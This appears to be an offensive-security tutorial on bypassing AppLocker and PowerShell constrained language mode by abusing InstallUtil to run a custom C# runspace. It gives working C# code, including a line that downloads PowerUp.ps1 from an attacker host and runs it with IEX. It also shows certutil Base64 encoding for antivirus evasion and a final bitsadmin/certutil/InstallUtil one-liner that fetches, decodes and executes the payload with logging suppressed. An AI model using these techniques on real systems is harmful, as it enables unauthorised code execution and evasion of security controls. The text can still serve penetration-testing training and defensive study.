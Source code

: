 PowerShell.exe is essentially a GUI application handling input and output. The real functionality lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to create a runspace.
It is possible to leverage multithreading and parallel task execution through either Jobs or Runspaces. The APIs for creating a runspace are public and available to managed code written in C#.
This means we could code a C# application that creates a custom PowerShell runspace and executes our script inside it. This is beneficial since, custom runspaces are not restricted by AppLocker.
we can construct a constrained language mode bypass to allow arbitrary PowerShell execution.

We will have to bypass AppLocker executable rules to execute this C# code, we ca use native Windows applications( InstallUtil) that can be abused to bypass AppLocker by fooling the filter driver.
we will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. This Microsoft-supplied tool obviously has legitimate uses, but we can abuse it to execute arbitrary C# code.

To use InstallUtil in this way, we must put the code we want to execute inside either the install or uninstall methods of the installer class.

We are only going to use the uninstall method since the install method requires administrative privileges to execute.

create a new C# Console App project, we'll create a runspace through the CreateRunspace method of the System.Management.Automation.Runspaces namespace and Unfortunately, Visual Studio can not locate System.Management.Automation.Runspaces.
to resolve this, we must manually add the assembly reference, C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35 folder where we will select System.Management.Automation.dll.
Also refer System.Configuration.Install namespace, Assemblies menu > System.Configuration.Install

Although our code uses both the Main method and the Uninstall method, content in the Main method is not important in this example. However, the method itself must be present in the executable.
Since the content of the Main method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the Uninstall method, we can execute arbitrary C# code i.e custom runspace code. 

Custom runspace C# code inside Uninstall method:

      using System;
      using System.Management.Automation;
      using System.Management.Automation.Runspaces;
      using System.Configuration.Install;
      
      namespace Bypass
      {
          class Program
          {
              static void Main(string[] args)
              {
                  Console.WriteLine("This is the main method which is a decoy");
              }
          }
      
          [System.ComponentModel.RunInstaller(true)]
          public class Sample : System.Configuration.Install.Installer
          {
              public override void Uninstall(System.Collections.IDictionary savedState)
              {
                  String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\test.txt";
                  
                  ***<comment>String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<kali ip>/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\test.txt"; <comment>***
                  
                  Runspace rs = RunspaceFactory.CreateRunspace();
                  rs.Open();
      
                  PowerShell ps = PowerShell.Create();
                  ps.Runspace = rs;
      
                  ps.AddScript(cmd);
      
                  ps.Invoke();
      
                  rs.Close();
              }
          }
      }

Before compiling the project, we'll switch from "Debug" to "Release" mode and select 64-bit for compilation.

To trigger our constrained language mode bypass code, we must invoke it through InstallUtil with /logfile to avoid logging to a file, /LogToConsole=false to suppress output on the console and /U to trigger the Uninstall method

    C:\Users\>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Bypass.exe

At this point, it would be possible to reuse this tradecraft with the Microsoft Word macros we developed earlier since they are not limited by AppLocker. Instead of using WMI to directly start a PowerShell process and download the shellcode runner from our Apache web server, we could make WMI execute InstallUtil and obtain the same result despite AppLocker.

The compiled C# file has to be on disk when InstallUtil is invoked. This requires two distinct actions. First, we must download an executable, and secondly, we must ensure that it is not flagged by antivirus, neither during the download process nor when it is saved to disk. we can use other native Windows binaries, which are whitelisted by default.

To attempt to bypass anitvirus, we are going to obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk. Well use the native certutil3 tool to perform the encoding and decoding and bitsadmin for the downloading.

Base64 encoding the executable with certutil: 

      cmd> certutil -encode C:\Users\\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt

Certutil can also be used to download files over HTTP(S), but this triggers antivirus due to its widespread malicious usage. 

Complete combined command to download, decode and execute the bypass: 

      cmd>bitsadmin /Transfer myJob http://<kali ip>/file.txt C:\users\enc.txt && certutil -decode C:\users\enc.txt C:\users\Bypass.exe && del C:\users\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\Bypass.exe


